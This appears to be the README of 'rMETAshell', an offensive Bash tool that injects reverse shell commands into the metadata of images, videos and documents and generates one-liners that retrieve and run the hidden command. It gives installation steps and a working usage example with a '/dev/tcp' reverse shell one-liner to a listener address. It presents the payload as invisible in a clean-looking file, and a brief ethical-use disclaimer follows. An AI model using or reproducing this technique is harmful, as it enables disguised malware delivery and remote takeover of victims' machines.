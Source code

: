 # rMETAshell - Your Ultimate Reverse Shell Injection and One-Liner Generation Toolkit
[![Sponsor](https://img.shields.io/badge/Sponsor-%E2%9D%A4-red)](https://github.com/sponsors/git5loxosec) [![Kali Linux Compatible](https://img.shields.io/badge/Kali%20Linux-Compatible-brightgreen)](https://www.kali.org/)
 <img src="https://camo.githubusercontent.com/f25217d6db3b6cb603d9fb4a2b017a682aae3b1ec5c6ffab653f6cd31eceb73c/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f446576656c6f7065642532306f6e2d6b616c692532306c696e75782d626c756576696f6c6574"> 
 ![Language](https://img.shields.io/badge/Language-Bash-green.svg)
 ![License](https://img.shields.io/badge/License-MIT-blue.svg) 

<img src="https://github.com/git5loxosec/rMETAshell/blob/main/github_rimgshell1.png">
Clean image file no reverse shell.
<img src="https://github.com/git5loxosec/rMETAshell/blob/main/github_rimgshell2.png">
The reverse shell injection method used here wont affect the integrity of the image file.
<img src="https://github.com/git5loxosec/rMETAshell/blob/main/github_rimgshell3.png">
Connection established, mission accomplished!


# New!:

New one-liner execution methods!

Supports png, jpg, jpeg, jpe, jif, jfif, jfi, jp2, j2k, jpf, jpx, jp2a, j2c, tif, tiff, crw, cr2, dng, mrw, nef, pef, arw, rw2, sr2, srw, orf, png, gif, bmp, dib, ico, pgf, jp2, j2k, jpf, jpx, jp2a, j2c, avi, mov, qt, moov, f4v, mp4, m4a, m4b, m4p, m4v, mp4v, mqv, jp2, j2k, jpf, jpx, jp2a, j2c, mpg, mpeg, m2v, mpv, m2p, m1v, m1p, m4v, divx, xvid, txt, text, log, md, markdown, html, htm, xml, json, csv, tsv, sql, yml, yaml, ini, cfg, conf, properties, prop, props, bat, sh, bash, zsh, ps1, ps, py, python, rb, ruby, perl, pl, php, js, javascript, jsx, ts, typescript, java, c, cpp, h, cs, csharp, vb, vbnet, swift, kotlin, rust, go, groovy, scala, lua, r, sas, scss, sass, less, styl, sql, plsql, psql, tsql, vbs, vba, vbscript, powershell, ps1xml, psd1, psm1, tex, latex, ltx, bib, rtf, doc, docx, xls, xlsx, ppt, pptx and pdf injection!

# Description:

rMETAshell is a command-line tool for injecting a reverse shell command into the metadata and generating one-liner execution methods.

# How It Works:
rMETAshell takes a reverse shell command and an image file as input. It then injects the command into the image using metadata comments. After injection, it generates a one-liner execution method for retrieving and executing the injected command from a remote location.

# Features:
Metadata-Based Shell Injection: Inject reverse shell commands into image, video, and text file metadata, ensuring seamless integration with target systems.

One-Liner Generation: Automatically generate one-liners for quick and efficient remote shell access. Choose from a variety of execution methods tailored to different file formats.

Supported File Formats: rMETAshell supports the following file formats for shell injection and one-liner generation:

Image Formats: JPEG, PNG, BMP, and more.
Video Formats: MP4, AVI, MKV, and others.
Text Formats: TXT, CSV, XML, and more.

## Installation

1. Clone the repository:

   ```
   git clone https://github.com/git5loxosec/rMETAshell
   ```

2. Change to the project directory:

   ```
   cd rMETAshell
   ```

3. Make the script executable:

   ```
   chmod +x rMETAshell.sh
   ```

## Usage

```
./rMETAshell.sh [OPTIONS] <REVERSE_SHELL_COMMAND> <FILENAME> <ZIP>
```

- `[OPTIONS]` - Optional arguments.
- `<REVERSE_SHELL_COMMAND>` - The reverse shell command to inject.
- `<FILENAME>` - The name of the media file.
- `<ZIP>` -The name of the zip file where the infected file is stored.

**Example:**

```
./rMETAshell.sh "/bin/sh -i >& /dev/tcp/192.168.1.128/4444 0>&1" image.jpg test.zip
```

Note: Ensure that you have the required dependencies (e.g., exiftool, curl) installed on your system before using rMETAshell.

**Warning: Ethical and Responsible Use Only
rMETAshell is intended for legitimate and ethical purposes, such as penetration testing, cybersecurity assessments, and educational use. Unauthorized use of this tool for malicious activities is strictly prohibited and may have serious legal consequences. Ensure that you have proper authorization and adhere to all applicable laws and regulations before using rIMGshell.**


## License


This project is licensed under the [MIT License](LICENSE).
